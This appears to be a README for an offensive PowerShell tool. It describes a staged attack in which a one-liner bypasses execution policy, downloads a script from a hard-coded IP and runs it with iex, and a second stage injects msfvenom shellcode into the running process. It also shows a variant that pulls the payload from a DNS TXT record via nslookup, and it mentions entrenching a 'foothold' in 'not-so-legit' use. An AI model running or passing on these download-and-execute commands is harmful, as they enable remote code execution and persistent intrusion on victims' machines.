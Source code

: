 
# Download the first stage...
``powershell -exec bypass -nop -i iex((New-Object System.Net.Webclient).DownloadString('http://192.178.1.1/some.txt'))``


obviously you need to host the files "some.txt" and "sc.txt".
Some.txt  invokes a second powershell, which downloads and invokes sc.txt (an unnecessary step.. but its a bit of fun to confirm the first one was executed..)
sc.txt injects shellcode into the current powershell window (the current shellcode in the file is just generated with:  ``msfvenom -e windows/x64/exec CMD=calc.exe``)
sc.txt works with non-admin privileges, and can work with admin privs aswell.
in a not-so-legit scenario, you would entrench your foothold before continuing.. if the injected powershell gets killed youll loose the whole thing.

# Another option
if you have a domain with TXT records. copy the some.txt to a TXT record, and make powershell download and invoke it.

``& powershell (nslookup -q=txt somedomain.com)[-1]``
